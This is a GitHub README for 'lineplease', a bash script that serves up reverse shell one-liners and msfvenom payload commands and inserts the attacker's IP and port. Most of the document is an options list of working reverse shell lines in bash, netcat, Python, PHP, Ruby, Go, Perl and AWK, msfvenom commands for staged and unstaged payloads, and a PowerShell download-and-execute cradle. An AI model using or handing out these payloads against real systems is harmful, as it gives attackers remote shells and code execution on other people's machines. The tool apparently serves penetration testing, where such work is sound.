 
                      __   _____  ______
                     / /  /  _/ |/ / __/
                    / /___/ //    / _/  
         ___  __   /____/___/_/|_/___/  
        / _ \/ /  / __/ _ | / __/ __/   
       / ___/ /__/ _// __ |_\ \/ _/     
      /_/  /____/___/_/ |_/___/___/     

"You thought your secrets were safe...you..ehmm...line please!!"

# lineplease

Lineplease is a helper script (bash) designed to simplify the process of grabbing reverse shell oneliners from the web<br>
and changing them to fit whatever need.
<br>
Started out as a simple personal tool to help my own lazy self but grew into a somewhat comprehensive list of lines<br>
easily served up on the command line.<br>
Most if not all creds goes to [PayloadAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) for the actual lines.<br>
<br>

Enjoy!
<br>
## installation
```git clone https://github.com/rub3rth/lineplease ```<br>
<br>
clipboard function requires xsel package<br>
```sudo apt-get install xsel```
# example usage
## for reverse shell line<br>
```./lineplease.sh [options] [interface] [port] ```<br><br>
example:<br>
```./lineplease.sh -b eth0 1337```<br>
<br>
ipv4-address on desired interface is inserted into line<br> 
for public ip specify interface as 'pub'<br><br>
when prompted:<br>
y to copy line to clipboard (requires xsel) or any other key to continue <br>
y to start netcat listener or any other key to exit<br>
## for msfvenom (requires msfvenom)<br>
```./lineplease.sh [options] [interface] [port] [name] ```<br><br>
example:<br>
```./lineplease.sh -m2 tun0 1337 rev```<br>
<br>
when prompted:<br> 	
y to create file or any other key to exit<br>
## options
``` 
-h 		display this page
example:	./lineplease.sh -h

OPTIONS		-----------------------------------

BASH
-b      	bash -i >& /dev/tcp/[ip]/[port] 0>&1
-be		0<&196;exec 196<>/dev/tcp/[ip]/[port]; sh <&196 >&196 2>&196
-bc     	bash -c 'bash -i >& /dev/tcp/[ip]/[port] 0>&1'

NETCAT
-n      	nc -e /bin/bash [ip] [port]
-ns		nc -e /bin/sh [ip] [port]
-nc		nc -c bash [ip] [port]

PYTHON
-py1		export RHOST="[ip]";export RPORT=[port];python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
-py2		python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[ip]",[port]));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' 						

PHP
-p1		php -r '$sock=fsockopen("[ip]",[port]);exec("/bin/sh -i <&3 >&3 2>&3");'
-p2		php -r '$sock=fsockopen("[ip]",[port]);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
-p3		php -r '$sock=fsockopen("[ip]",[port]);`/bin/sh -i <&3 >&3 2>&3`;'
-p4		php -r '$sock=fsockopen("[ip]",[port]);system("/bin/sh -i <&3 >&3 2>&3");'
-p5		php -r '$sock=fsockopen("[ip]",[port]);passthru("/bin/sh -i <&3 >&3 2>&3");'
-p6		php -r '$sock=fsockopen("[ip]",[port]);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
-p7		php -r '$sock=fsockopen("[ip]",[port]);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'

RUBY
-r		ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[ip]","[port]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
-rw		ruby -rsocket -e 'c=TCPSocket.new("[ip]","[port]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'	(windows only)


GOLANG
-g		echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","[ip]:[port]");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go


PERL
-pe		perl -e 'use Socket;$i="[ip]";$p=[port];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
-pe2		perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"[ip]:[port]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'			
-pw		perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"[ip]:[port]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'	(windows only)

AWK
-a		awk 'BEGIN {s = "/inet/tcp/0/[ip]/[port]"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null

POWERSHELL
-ps1            too long and messy to print out here
-ps2            same goes for this one

MSFVENOM UNSTAGED
-m1 		msfvenom -p windows/shell_reverse_tcp LHOST=[ip] LPORT=[port] -f exe > [name].exe
-m2		msfvenom -p linux/x86/shell_reverse_tcp LHOST=[ip] LPORT=[port] -f elf > [name].elf
-m3     	msfvenom -p osx/x86/shell_reverse_tcp LHOST=[ip] LPORT=[port] -f macho > [name].macho
-m4		msfvenom -p java/jsp_shell_reverse_tcp LHOST=[ip] LPORT=[port] -f raw > [name].jsp
-m5		msfvenom -p java/jsp_shell_reverse_tcp LHOST=[ip] LPORT=[port] -f war > [name].war
-m6		msfvenom -p cmd/unix/reverse_python LHOST=[ip] LPORT=[port] -f raw > [name].py
-m7		msfvenom -p cmd/unix/reverse_bash LHOST=[ip] LPORT=[port] -f raw > [name].sh
-m8		msfvenom -p cmd/unix/reverse_perl LHOST=[ip] LPORT=[port] -f raw > [name].pl

MSFVENOM STAGED
-m1s    	msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ip] LPORT=[port] -f exe > [name].exe
-m2s    	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[ip] LPORT=[port] -f elf > [name].elf
-mas    	msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ip] LPORT=[port] -f asp > [name].asp
-mps		msfvenom -p php/meterpreter_reverse_tcp LHOST=[ip] LPORT=[port] -f raw > [name].php; cat [name].php | xsel --clipboard --input && echo '<?php ' | tr -d '\n' > [name].php && xsel --clipboard --output >> [name].php
                (requires xsel)

LAZY OPTIONS
-pu2		python -c 'import pty; pty.spawn("/bin/bash")'
-pu3 		python3 -c 'import pty; pty.spawn("/bin/bash")'

		loads up line for python shell upgrade

		usage:		./lineplease.sh -pu2
                when prompted:  y to copy to clipboard (requires xsel)/any other key to exit

-psd		powershell "IEX(New-Object Net.WebClient).downloadString('http://[ip]:[port]/[filename]')"

		loads up a powershell command to download the file linpeas.sh from ip address of eth0

		usage:		./lineplease.sh -psd [interface] [port] [filename]
		example:	./lineplease.sh -psd eth0 1337 linpeas.sh
		when prompted:	y to copy to clipboard (requires xsel)/any other key to continue
		when prompted:	y to start web server in current directory/any other key to exit 
```
